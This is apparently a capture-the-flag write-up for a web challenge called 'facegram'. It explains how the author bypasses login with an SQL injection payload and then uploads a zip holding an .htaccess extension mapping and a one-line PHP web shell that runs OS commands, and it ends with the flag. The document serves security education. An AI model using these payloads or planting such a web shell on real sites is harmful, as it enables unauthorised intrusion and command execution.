






# facegram
> This punk kid stole my idea for a photo sharing site! Can you break into it for me?

## About the Challenge
We were given a website without the source code, and this website has a lot of functionality

* View uploaded image (`/view.php?id=1`)
* View profile (`/user.php?id=1`)
* Login (`/login.php`)
* Register (`/register.php`)
* Forgot password (`/forgot-password.php`)
* Upload image (`/upload.php`)



## How to Solve?
Initially, I attempted to register and log in to my account, and then successfully uploaded a PHP file. However, when visiting the uploaded file at the `/uploads/` endpoint, the output showed `403 Forbidden`



I also tried to change the extension (Ex: .phar, .inc), the mime type, etc but it still doesn't works because the website will read my file as a plain text



And then I attempted to exploit the website using SQL injection vulnerabilities on some endpoints but failed. Subsequently, I tried to perform SQL injection on the login page to log in as an `admin`, and it was successful. Here is the payload I used to login as an `admin`

```
username: admin' or true-- -
password: test
```



In the admin panel, there are two new features:

* Manage user
* Upload zip file




Hmmm, a `zip` file? I tried uploading a random zip file, and this feature will unzip our uploaded file, placing each file from the zip in the /uploads directory.

So I created a `.htaccess` file, and its content will look like this:

```
AddType application/x-httpd-php .php16
```

I also added another PHP file, but I'm using `.php16` as the extension.

```php
<?php echo system($_GET['cmd']); ?>
```

And heck yeah! we can execute OS command right now



```
flag{but_i_thought_zips_only_went_up}
```